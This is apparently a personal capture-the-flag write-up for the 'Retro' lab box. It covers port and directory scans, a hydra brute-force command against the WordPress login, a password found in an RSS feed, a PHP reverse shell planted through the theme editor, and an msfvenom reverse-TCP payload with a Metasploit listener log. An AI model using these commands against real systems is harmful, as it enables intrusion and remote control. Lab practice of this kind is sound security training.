

# Retro

## NMAP

```
┌──(kali㉿kali)-[~/Desktop/Retro]
└─$ sudo nmap -sS -Pn -p- 10.10.211.12                
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 13:06 EDT
Nmap scan report for 10.10.211.12
Host is up (0.050s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 167.24 seconds
                                                                                 
┌──(kali㉿kali)-[~/Desktop/Retro]
└─$ sudo nmap -sSVC -Pn -p 80,3389 10.10.211.12       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 13:09 EDT
Nmap scan report for 10.10.211.12
Host is up (0.048s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-10-31T17:09:39+00:00
|_ssl-date: 2023-10-31T17:09:43+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-10-30T17:03:55
|_Not valid after:  2024-04-30T17:03:55
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.40 seconds
                                                            
```

## Gobuster

```
┌──(kali㉿kali)-[~/Desktop/Retro]
└─$ gobuster dir -u http://10.10.211.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.211.12
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.211.12/retro/]
/Retro                (Status: 301) [Size: 149] [--> http://10.10.211.12/Retro/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

```
┌──(kali㉿kali)-[~/Desktop/Retro]
└─$ gobuster dir -u http://10.10.211.12/retro -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.211.12/retro
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://10.10.211.12/retro/]
/wp-admin             (Status: 301) [Size: 158] [--> http://10.10.211.12/retro/wp-admin/]                                                                         
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.211.12/retro/wp-content/]                                                                       
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.211.12/retro/wp-includes/]                                                                      
Progress: 4614 / 4615 (99.98%)
/xmlrpc.php           (Status: 405) [Size: 42]
===============================================================
Finished
===============================================================
```


## Website


It is using Organic Themes WordPress Block Themes and Plugins.


It is Wordpress so we should have a WordPress login. We also know a username named wade from the website.


### Brue force wordpress login

```
log=wade&pwd=password&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1
```

```
hydra -l wade -P /home/kali/Desktop/rockyou.txt 10.10.211.12 http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username " -v 
```

No luck

### Exploring the website

On the author page we find two rss feeds
The comments one contains his password credential.


```
<rss version="2.0">
<channel>
<title> Comments for Retro Fanatics </title>
<atom:link href="/retro/index.php/comments/feed/" rel="self" type="application/rss+xml"/>
<link>http://localhost/retro</link>
<description>Retro Games, Books, and Movies Lovers</description>
<lastBuildDate>Mon, 09 Dec 2019 01:18:57 +0000</lastBuildDate>
<sy:updatePeriod> hourly </sy:updatePeriod>
<sy:updateFrequency> 1 </sy:updateFrequency>
<generator>https://wordpress.org/?v=5.2.1</generator>
<item>
<title> Comment on Ready Player One by Wade </title>
<link>
/retro/index.php/2019/12/09/ready-player-one/#comment-2
</link>
<dc:creator>Wade</dc:creator>
<pubDate>Mon, 09 Dec 2019 01:18:57 +0000</pubDate>
<guid isPermaLink="false">/retro/?p=10#comment-2</guid>
<description>
Leaving myself a note here just in case I forget how to spell it: parzival
</description>
<content:encoded>
<p>Leaving myself a note here just in case I forget how to spell it: parzival</p>
</content:encoded>
</item>
</channel>
</rss>
```

We can now login to the Wordpress admin page

## Reverse Shell

On the wordpress admin page, we can go to themes editor and insert a php reverse shell

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php



## RDP

I was being dumb, i should ve just used the credentials on RDP before trying to get a rev shell.


## Privesc

Putting some venom on the machine.

Generating the payload with msfvenom

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell/reverse_tcp LHOST=10.8.191.218 LPORT=4444 -f exe > meterReverseShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```


Listener
```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.8.191.218
lhost => 10.8.191.218
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.191.218:4444 
[*] Sending stage (175686 bytes) to 10.10.91.178
[*] Meterpreter session 1 opened (10.8.191.218:4444 -> 10.10.91.178:49925) at 2023-10-31 17:38:23 -0400

meterpreter > 
```


I am at a wall, I learn about Windows Privesc and come back later